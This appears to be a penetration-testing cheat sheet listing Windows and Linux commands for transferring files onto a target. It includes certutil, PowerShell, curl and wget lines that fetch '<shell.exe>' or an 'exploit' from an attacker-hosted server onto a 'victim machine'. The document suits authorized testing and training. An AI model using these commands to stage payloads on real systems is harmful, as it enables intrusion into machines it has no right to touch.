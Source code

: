 # Methods to upload files to/from target

## Windows

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    powershell -c "Invoke-WebRequest -Uri '<ip>/<shell.exe>' -OutFile '<output path>'"
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter


## Linux

  ## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21 --write    #Host ftp server
      ftp <IP>
      
